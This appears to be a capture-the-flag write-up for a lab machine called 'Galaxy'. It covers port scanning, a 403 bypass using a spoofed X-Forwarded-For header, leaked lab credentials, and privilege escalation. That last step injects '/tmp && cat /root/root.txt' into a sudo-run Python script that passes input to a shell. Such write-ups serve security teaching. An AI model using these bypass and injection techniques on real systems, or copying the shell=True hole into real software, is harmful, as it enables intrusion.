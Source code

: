 # [Galaxy]

## Introduction

Galaxy is easy level machine In this challenge, machine hosting a beta website about facts. The site was vulnerable to bypassing the 403 Forbidden restriction using the X-Forwarded-For header. After successfully bypassing the restriction, I accessed the "doston" user account, where their password was leaked. The "doston" user had a custom .sh file that, we can exploit rce.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| doston | Ab401c |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is vulnerable to http host header
3) There is custom copy.sh file in doston user's home directory which is vulnerable to rce

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>
2) I specifically made doston user unable to see following directory and files: <br>/etc/passwd<br> /etc/shells/<br> /home (but can access it's own directory)<br> /var


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find /developers and /photos directories and /developers directory gives us 403 forbidden error<br>

![image](https://github.com/user-attachments/assets/27c54f85-4952-4b13-8040-9c07dea34883)
<br>
Trying to enumerate any subdomains other directory leads us nothing. So we try to find a way to access /developers directory.<br>
Googling 403 bypass error we find [this](https://github.com/justdoston/403-Bypass) documentation.<br>
According to documentation trying to add forward headers with 127.0.0.1 ip will work, because server will think user trying to access from internal IP address.<br>

Let's use proxy forwarding tool such as burp suite to manupulate and try this technique.<br>
![image](https://github.com/user-attachments/assets/605568f6-ecb7-4b28-a860-f5d9f7f40430)


`X-Forwarded-For: 127.0.0.1` header successfuly worked to bypass<br>
![image](https://github.com/user-attachments/assets/c1ed7ece-f4d2-46d1-a9d2-8d07ddd472b6)


# Foothold

We use same technique to see content of README.md file:<br>
![image](https://github.com/user-attachments/assets/7533a024-0629-49f8-8040-4c65d5140d79)
<br>
Not much usefull let's take a look to devs.txt file<br>
```
user pass of developers who working to build this website

doston:Ab401c *
john:sfheie32 
mark:dfgid23 
akmal:shgj62
```
<br>
Now we have credentials let's try doston user to login with ssh<br>

![image](https://github.com/user-attachments/assets/afb30792-72f1-4ba8-9bcb-2b82cd112ed4)
<br>
We are in! user flag can be found from /home/doston/user.txt <br>
doston user has limited and restricted access which is not default. We can not enumerate web directory nor we can not know possible usernames for lateral movement.<br>
![image](https://github.com/user-attachments/assets/1a9203e6-5794-4822-8575-e9d801120e3f)
<br>
But our user allowed to run copy.sh file as sudo without password:<br>
`sudo -l`<br>
```
$ sudo -l
Matching Defaults entries for doston on galaxy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User doston may run the following commands on galaxy:
    (ALL) NOPASSWD: /home/doston/copy.sh
```
Let's analyze content of copy.sh file:<br>
```
#!/usr/bin/python
import os
import shutil
import stat
import subprocess  

def main():

   
    file_path = input("Enter the full path of the file to copy: ")
 
    target_dir = input("Enter full path of the directory to paste: ")


   
    if not file_path.startswith('/home/doston/'):
        print("Error: Only files from /home/doston directory are allowed.")
        return

    
    if os.path.islink(file_path):
        print("Error: The file is a symlink and cannot be copied.")
        return

    
    inode_count = os.stat(file_path).st_nlink
    if inode_count > 1:
        print("Error: The file is a hard link and cannot be copied.")
        return

    try:
        
        print(f"Attempting to copy the file from {file_path} to {target_dir}")
       
        subprocess.run(f"cp {file_path} {target_dir}", shell=True, check=True)
        print(f"File successfully copied to {target_dir}.")
    except subprocess.CalledProcessError as e:
        print(f"Error: Failed to copy the file. {e}")

if __name__ == "__main__":
    main()
```
This script written python code which asks file and location to copy if we look at it it uses shell and os commands to copy file which is dangerous !<br>
Take a look at this part:
`subprocess.run(f"cp {file_path} {target_dir}", shell=True, check=True)`
This line of code uses shell to copy file with `cp` command but it is vulnerable to remote code execution!<br>
When script asks target directory to copy file we can add extra command after directory like:<br>
`/tmp && cat /root/root.txt` and we have root flag!

